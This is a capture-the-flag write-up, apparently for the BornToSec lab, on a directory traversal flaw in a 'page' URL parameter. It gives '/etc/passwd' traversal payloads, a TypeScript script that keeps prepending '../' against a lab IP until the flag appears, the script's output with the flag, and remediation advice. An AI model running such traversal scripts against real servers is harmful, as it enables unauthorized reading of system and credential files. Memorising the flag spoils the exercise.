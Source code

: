 # Directory traversal breach

## How we found the breach

Sources:

[portswigger →](https://portswigger.net/web-security/file-path-traversal)

[owasp →](https://owasp.org/www-community/attacks/Path_Traversal#:~:text=Cookie%3A%20TEMPLATE%3D../../../../../../../../../etc/passwd)

[infosecinstitute →](https://resources.infosecinstitute.com/topic/php-lab-file-inclusion-attacks/)

From the website's home page, after pressing the `Sign In` button we're redirected to `http://IP/?page=signin`.

Depending on how the server handles the params parsing we could pass filename containing absolute paths to other file from the server file system.

A commonly hacked sensitive file is the `/etc/passwd` containing a trace of every computer registered user.

[More information on /etc/passwd →](https://www.ibm.com/docs/bg/aix/7.2?topic=passwords-using-etcpasswd-file)

### Testing the /etc/passwd access

By hitting `http://IP/?page=/etc/passwd` the server returns a page displaying an alert modal containing the label `WTF`:

```html
<script>alert('Wtf ?');</script><!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		<meta name="keywords" content="" />
		<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
		<script src="js/jquery.min.js"></script>
		<script src="js/skel.min.js"></script>
		<script src="js/skel-layers.min.js"></script>
		<script 
```

We can see that the server appends a script tag at the beginning of the page.

We need to dig deeper, considering that the served page could be located recursively anywhere in folders.

The required file path could have infinite number of `..`, this is why we'll need to code a small tool.

### The script

The following script will download the returned page for any `../<...>/../etc/passwd` combination until he found within the first script tag the string `flag`.

Note: This script assumes that the server will send back the flag in the first script tag, and even more that the flag will be displayed using the `flag` appellation.

```ts
// @ts-check
import got from 'got'
import * as cheerio from 'cheerio'

const searchedFile = `/etc/passwd`
const baseUrl = `http://192.168.56.101/?page=`

async function traverseDirectory(query) {
    const url = baseUrl + query;
    const htmlPage = await got(url).text()

    const $ = cheerio.load(htmlPage)
    const firstScriptTag = $('script').first().text();

    if (firstScriptTag.match(/flag/)) {
        console.log(firstScriptTag)
        return
    } else {
        console.log(firstScriptTag)
        const newQuery = `../${query}`
        return traverseDirectory(newQuery)
    }
}

await traverseDirectory(searchedFile)
```

By running the script we get the below output:

```bash
node script.js 

alert('Wtf ?');
alert('Wtf ?');
alert('Wrong..');
alert('Nope..');
alert('Almost.');
alert('Still nope..');
alert('Nope..');
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```

## How to exploit the breach

By being able to browse the server file system the hacker could steal any kind of sensitive information. He could also be able to execute previously uploaded script inside the server file tree.

[See file upload breach →](../../php_script_as_jpg_metadata_file_upload_breach/Ressources/Explanation.md)

## How to avoid the breach

The solutions to avoid this breach are quite similar to those for [Redirect security breach](../../query_param_driving_redirection/Ressources/Explanation.md). The server should not build a path to local filesystem with user-supplied input.

If it's necessary for the application to allow users to access files on the filesystem of the server, the server should validate the path sent by the user, to only allow access to authorized directories.
